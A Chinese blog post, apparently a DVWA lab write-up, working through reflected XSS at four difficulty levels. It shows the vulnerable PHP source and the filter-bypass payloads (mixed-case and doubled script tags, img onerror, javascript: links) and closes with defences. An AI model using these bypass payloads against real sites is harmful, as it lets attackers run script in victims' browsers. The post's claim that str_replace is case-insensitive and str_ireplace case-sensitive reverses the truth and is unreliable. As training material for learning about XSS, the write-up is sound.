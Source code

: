 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (Reflected)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (Reflected)，即反射型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-21
author:     HouKC
header-img: img/home-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (Reflected)

XSS，全称Cross Site Scripting，即跨站脚本攻击，是指攻击者在页面中注入恶意代码，当受害者访问该页面时，恶意代码会在其浏览器上执行。

XSS不仅限于JavaScript，还可以是Flash等脚本语言，根据恶意代码是否存储在服务器，XSS分为存储型XSS和反射型XSS。

DOM型的XSS由于比较特殊，常被分为第三种，是基于DOM树的XSS。如服务器端常使用document.body.innerHtml等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型XSS。DOM型XSS可能是存储型，也可能是反射型。



## 0x01 Low

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>  
```
关闭了XSS保护，没有设置任何过滤，直接将GET方式提交的变量值输出成html，构成了反射型XSS。

#### 解题思路
直接输入下述代码即可弹出弹框
```html
<script>alert(1);</script>
```


## 0x02 Medium
#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```
关闭了XSS保护，并且str_replace函数会将\'\<script\>\'替换成空字符，然后才输出，但是str_replace对大小写不敏感，str_ireplace函数才对大小写敏感。

可以通过大小写绕过或双写绕过，来构成XSS。

#### 解题思路
1、大小写绕过
```html
<Script>alert(1);</scRipt>
```
大写script哪些字母都可以。

2、双写绕过
```html
<sc<script>ript>alert(1);</scr<script>ipt>
```
注意双写绕过时要将被替换的字符全部写进去，这里不只是双写script。



## 0x03 High

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```
关闭了XSS保护，使用preg_replace函数作正则匹配，只要包含字符串\'\<script\>\'就算是中间有别的字符也会匹配到，并且i参数表示大小写都能匹配。

因此不能再使用大小写绕过或双写绕过了。但可以通过其他标签、属性来执行JavaScript脚本弹框，如：img标签。

#### 解题思路
利用img标签的onerror属性，onerror属性是在src属性出错时执行，所以只要让src属性是一个不存在的链接或值即可。构造XSS注入代码如下：
```html
<img src='1' onerror='alert(1)'>
```
也可以用a标签
```
<a href='javascript:alert(1)'>click me</a>
```
但是需要点击click me链接才会生效。



## 0x04 Imposible

#### 源码分析
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();
?> 
```
源码中使用CSRF token来防御CSRF攻击。

htmlspecialchars()函数把字符&、\"、\’、\<、\>转换为HTML实体，防止浏览器将其作为HTML元素，从而防御XSS攻击。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 黑名单过滤用户输入，注意大小写都考虑进去。
- 使用htmlspecialchars()函数将特殊符号变成HTML实体。
- 使用owasp等安全XSS处理API。